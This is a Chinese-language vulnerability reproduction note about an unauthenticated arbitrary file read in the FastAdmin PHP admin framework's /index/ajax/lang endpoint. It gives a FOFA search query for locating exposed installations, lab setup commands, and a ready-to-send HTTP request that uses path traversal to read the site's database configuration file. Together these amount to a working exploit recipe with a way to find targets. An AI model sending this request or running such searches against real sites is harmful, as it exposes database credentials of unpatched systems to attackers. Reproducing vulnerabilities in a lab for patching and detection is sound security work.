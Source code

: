 # FastAdmin后台开发框架 lang 任意文件读取漏洞

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** FastAdmin后台开发框架 lang 任意文件读取漏洞



# 0x01 产品简介

FastAdmin是一款基于PHP+Bootstrap的开源后台框架，专为开发者精心打造。它基于ThinkPHP和Bootstrap两大主流技术构建，拥有完善的权限管理系统和一键生成CRUD等强大功能。FastAdmin致力于提高开发效率，降低开发成本，同时确保后台系统的稳定性和安全性。

# 0x02 漏洞描述

FastAdmin后台开发框架 /index/ajax/lang 接口存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态。

# 0x03 FOFA语法

```
body="fastadmin.net" || body="<h1>fastadmin</h1>" && title="fastadmin"
```

# 0x04 环境搭建

```
git clone https://github.com/hellowzsg/docker-phper.git && cd docker-phper
docker-compose up -d php nginx mysql
```

# 0x05 漏洞复现

```
GET /index/ajax/lang?lang=../../application/database HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

 ![](image/982be5c5-9591-40a2-8daf-965b87a11c6e.png)
